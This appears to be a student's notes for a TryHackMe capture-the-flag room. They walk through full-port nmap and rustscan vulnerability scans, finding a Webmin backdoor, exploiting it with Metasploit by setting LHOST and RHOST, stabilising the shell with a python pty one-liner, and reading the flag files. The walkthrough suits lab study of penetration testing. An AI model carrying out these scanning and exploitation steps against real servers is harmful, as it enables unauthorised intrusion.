 # Source- Another TryHackMe Room 
 - [ ] Compromising a web server

## DNS Poisoning
 - We can instruct our system to direct us to a particular IP on requesting a specific domain.
 ``` sudo nano /etc/hosts
 ```
 
# The Attack

- Connect to the virtual environment of Tryhackme and start the machine
- So first we need to scan the target IP with nmap but as we have no idea about which port the website is running on, we need to scan all the ports(-p-) which would take a huge time to complete.
-  --script vuln -> To tag the vulnerabilities 
-  sudo nmap -Pn -p- -sV --script vuln -vv -oN src.txt
- in usr/share/nmap/scripts we may filter the ls command as ``` ls | grep vuln``` to see all the vulnerabilities to be checked.
-  ``` sudo tail -f src.txt -> to track a file progress realtime```
##  Rustscan - A nmap alternative 
- Releases->Assests(4 files)->deb file
- ```wget url```
- install the file after adding execution permission to it.
- Basic Usage-> -a for addresses , -- (nmap commands)
- ```sudo rustscan -a src.com -- --script vuln -oN rst.txt```
- runs the scan on open ports(22,10000).
- 10000 port is vulnerable.(Webmin file disclosure).
- rapid7--- a sophisticated framework with which we can exploit almost 70% internet with known vulnerabilities.
- open the db file
- check for the webmin version number with another nmap scan specifying the 10000 port
- filter the exploit lists in exploit.com using metasploit as author.
# For Running the exploit in the target machine
- open ``` msfconsole`	``
- ``` search Webmin```
- A list of exploits is generated
- we can write ```use 7  or info 7```
- We chose 7(backdoor) because we can change the password with it.
- ```show options```
- setting the LHOST and RHOST to carry out the attack by running the payload in the target machine.
- tun0 is LHOST IP as provided by thm.
- RHOST is the machine IP
- ```set RHOST .....  set LHOST ....```
- ```exploit```
- after changing the payload and setting the SSL(helps to establish client server connections), we are finally able to access the server and compromise the machine, but the terminal is unstable.
- ``` python -c 'import pty; pty.spawn("/bin/bash")'```
- ```export TERM=xterm```
- using cd .. and going to home directory to see users we can easily find root.txt and user.txt and complete the challenge.
